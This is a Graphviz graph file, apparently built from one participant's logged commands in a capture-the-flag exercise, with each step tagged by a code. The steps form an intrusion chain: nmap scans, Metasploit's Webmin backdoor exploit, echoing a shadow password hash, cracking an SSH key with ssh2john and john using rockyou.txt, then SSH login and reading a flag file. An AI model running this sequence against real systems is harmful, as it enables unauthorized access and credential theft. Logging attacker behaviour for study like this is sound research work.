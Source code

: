 // creating graph for user: 80
digraph {
	node [shape=box]
	0 [label="nmap -A 172.18.1.5 M0 "]
	1 [label="nmap -A -p 1-65536 A1 "]
	2 [label="nmap -A -p 1-65536 172.18.1.5 A1 "]
	3 [label="nmap -A -p 1-65535 172.18.1.5 A1 "]
	4 [label="msfconsole M2 "]
	5 [label="search webmin M3 "]
	6 [label="use exploit/unix/webapp/webmin_backdoor M8 "]
	7 [label="options U"]
	8 [label="set RHOST 172.18.1.5 A6 "]
	9 [label="set RHOSTS 172.18.1.5 M6 "]
	10 [label="ip a U"]
	11 [label="set LHOST 10.1.135.83 U"]
	12 [label="nmap -A 10.1.17.4 A1 "]
	13 [label="vim key U"]
	14 [label="ssh2john A14 A16 "]
	15 [label="john key A14 "]
	16 [label="cat key  A1 A9 A11 A12 A17 "]
	17 [label="locate *2john A1 A9 A10 A11 A12 A14 A17 "]
	18 [label="/usr/share/john/ssh2john.py key > key.hash A14 A16 "]
	19 [label="john key.hash A14 "]
	20 [label="cat key.hash A1 A9 A11 A12 A17 "]
	21 [label="run U"]
	22 [label="sessions -l U"]
	23 [label="sessions -h U"]
	24 [label="sessions -u 2 U"]
	25 [label="sessions -l U"]
	26 [label="echo 'eve:$6$eDIUpTqNub/vHNdW$1OxDFqCfsUBdhYWqY6f2P37WcGUznmP7BCEmEADlIkvxkpjzOy3zv3MJTxAC53a1oPtoBpvzRksNCzO4pppiy.:18451:0:99999:7:::'  U"]
	27 [label="echo 'eve:$6$eDIUpTqNub/vHNdW$1OxDFqCfsUBdhYWqY6f2P37WcGUznmP7BCEmEADlIkvxkpjzOy3zv3MJTxAC53a1oPtoBpvzRksNCzO4pppiy.:18451:0:99999:7:::'  U"]
	28 [label="sessions -i 3 U"]
	29 [label="run U"]
	30 [label="sessions -l U"]
	31 [label="sessions -U 4 U"]
	32 [label="sessions -u 4 U"]
	33 [label="ls A10 "]
	34 [label="./ssh2john.py key > key2.hash A14 A16 "]
	35 [label="john key2.hash A14 "]
	36 [label="locate *ockyou* A1 A9 A10 A11 A12 A17 "]
	37 [label="john --wordlist=/usr/share/wordlists/rockyou.txt key2.hash M14 "]
	38 [label="ssh -h A16 "]
	39 [label="ssh -i key eve@10.1.17.4 M16 "]
	40 [label="chmod 600 key M15 "]
	41 [label="ssh -i key eve@10.1.17.4 U"]
	42 [label="ssh -i key eve@10.1.17.4 U"]
	43 [label="ls A10 "]
	44 [label="cd top-secret/ U"]
	45 [label="ls A10 "]
	46 [label="cat flag.txt M17 "]
	47 [label="cat /usr/share/wordlists/rockyou.txt  A1 A9 A11 A12 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	rankdir=LR
}
